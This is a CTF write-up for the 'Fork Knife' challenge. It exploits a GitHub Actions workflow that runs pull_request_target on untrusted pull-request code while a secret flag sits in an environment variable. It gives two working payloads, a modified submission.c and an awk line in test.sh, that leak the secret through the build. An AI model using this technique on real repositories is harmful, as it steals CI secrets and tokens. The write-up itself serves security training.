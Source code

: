 # Fork Knife (500 points) - Github

You must solve the first challenge to get the answer of this 2nd challeng.

![Alt text](images/image.png)

This problem needs to fork the repository and make a pull request of the changes to the original repository to uncover the secrets environment variables. There is a two possible gadgets here, the  bash scripts and `submission.c`. You can refer to this site how to exploit the yaml workflows: [Hack this reporistory - github](https://securitylab.github.com/research/ekoparty-ctf/)

Looking at the workflow yaml file we can see the following:
```yaml
on:
  pull_request_target

jobs:
  build:
    name: Grade the test
    runs-on: ubuntu-latest
    steps:

    - uses: actions/checkout@v2
      with:
        ref: ${{ github.event.pull_request.head.sha }}
        
    - name: Run build & tests
      id: build_and_test
      env: 
        EXPECTED_OUTPUT: ${{ secrets.FLAG }}
      run: |
        /bin/bash ./build.sh > output.txt && /bin/bash ./test.sh

    - uses: actions/github-script@v3
      with:
        github-token: ${{secrets.GITHUB_TOKEN}}
        script: |
          github.issues.createComment({
            issue_number: context.issue.number,
            owner: context.repo.owner,
            repo: context.repo.repo,
            body: "👋 Your code looks great, good job! You've passed the exam!"
          })
```
The secrets.FLAG is the flag, but we can't access it because we don't have permissions to write, so we need to find a way to read the secrets variable with EXPECTED_OUTPUT variable.

Now we can use our gadgets, first is the submission.c:

```c
#include <iostream>
#include <fstream>
#include <string>
#include <cstdlib>
#include <algorithm>

int main() {
    // Retrieve the content of the "HOME" environment variable
    char* envVar = std::getenv("HOME");
    
    if (envVar == nullptr) {
        std::cerr << "Environment variable not found or is empty." << std::endl;
        return 1;
    }
    
    // Convert the environment variable content to a C++ string
    std::string envVarContent = envVar;

    // Reverse the content
    std::reverse(envVarContent.begin(), envVarContent.end());

    // Convert to lowercase
    std::transform(envVarContent.begin(), envVarContent.end(), envVarContent.begin(), ::tolower);

    // Create a new variable to store the modified content
    std::string newVarContent = envVarContent;

    // Output the modified content to a file
    std::ofstream outputFile("output.txt");
    if (outputFile.is_open()) {
        outputFile << newVarContent;
        outputFile.close();
        std::cout << "Content has been reversed, converted to lowercase, and written to 'output.txt'." << std::endl;
    } else {
        std::cerr << "Failed to open 'output.txt' for writing." << std::endl;
        return 1;
    }

    return 0;
}
```
We can see that the submission.c will reverse and lowercasing the output string of environment variable HOME and write it to output.txt.

Looking at build.sh:
```bash
#!/bin/bash

# Compile the C++ program
g++ -o submission submission.c

# Check if the compilation was successful
if [ $? -eq 0 ]; then
    echo "Build successful. The program has been compiled as 'submission'."
else
    echo "Build failed. Please check the compilation errors."
fi
```
The build.sh will compile the submission.c with g++ compiler since the code is not really written in C but in C++.

test.sh:
```bash
#!/bin/bash

# Define the expected output from the environment variable
EXPECTED_OUTPUT="$EXPECTED_OUTPUT"

# Read the content of the output.txt file
if [ -f "output.txt" ]; then
    ACTUAL_OUTPUT=$(cat "output.txt")
else
    echo "Error: 'output.txt' file not found."
    exit 1
fi

# Compare the expected output with the actual output
if [ "$EXPECTED_OUTPUT" = "$ACTUAL_OUTPUT" ]; then
    echo "Validation passed: The content of 'output.txt' matches the expected output."
    exit 0
else
    echo "Validation failed: The content of 'output.txt' does not match the expected output."
    exit 1
fi
```
Now here with test.sh we can see that the EXPECTED_OUTPUT is the secrets.FLAG and the ACTUAL_OUTPUT is the output.txt. So we can use the submission.c to reverse the secrets.FLAG and write it to output.txt, and also we can use this as second gadget since the EXPECTED_OUTPUT is the secrets.FLAG and we only need to reverse it with `awk` same as `comment` challenge.

Writing the payload to the submission.c:
```c
#include <iostream>
#include <fstream>
#include <string>
#include <cstdlib>
#include <algorithm>

int main() {
    // Retrieve the content of the "HOME" environment variable
    char* envVar = std::getenv("HOME");
    
    if (envVar == nullptr) {
        std::cerr << "Environment variable not found or is empty." << std::endl;
        return 1;
    }

    // leak the secret.FLAG
    envVar = std::getenv("EXPECTED_OUTPUT");

    // Convert the environment variable content to a C++ string
    std::string envVarContent = envVar;

    // Reverse the content
    std::reverse(envVarContent.begin(), envVarContent.end());

    // Comment out this line to prevent the flag being lowercase and causes wrong flag.
    // std::transform(envVarContent.begin(), envVarContent.end(), envVarContent.begin(), ::tolower);

    // Create a new variable to store the modified content
    std::string newVarContent = envVarContent;

    // Output the modified content to a file
    std::ofstream outputFile("output.txt");
    if (outputFile.is_open()) {
        outputFile << newVarContent;
        outputFile.close();
        std::cout << "Content has been reversed, converted to lowercase, and written to 'output.txt'." << std::endl;
    } else {
        std::cerr << "Failed to open 'output.txt' for writing." << std::endl;
        return 1;
    }

    return 0;
}
```

2nd payload with test.sh (Cheating our final test instead of modifying submission.c XD):
```bash
echo "$EXPECTED_OUTPUT" | awk '{ for(i=length;i!=0;i--) printf "%s",substr($0,i,1); print "" }
```

Now we can make a pull request to the original repository and wait for the workflow to run.

![Alt text](images/image-1.png)

Looking at the actions tab to see the workflow running.
![Alt text](images/image-2.png)

and we got the flag.

**FLAG:** EKO{pr3v3nt_PWN_r3qu3stS}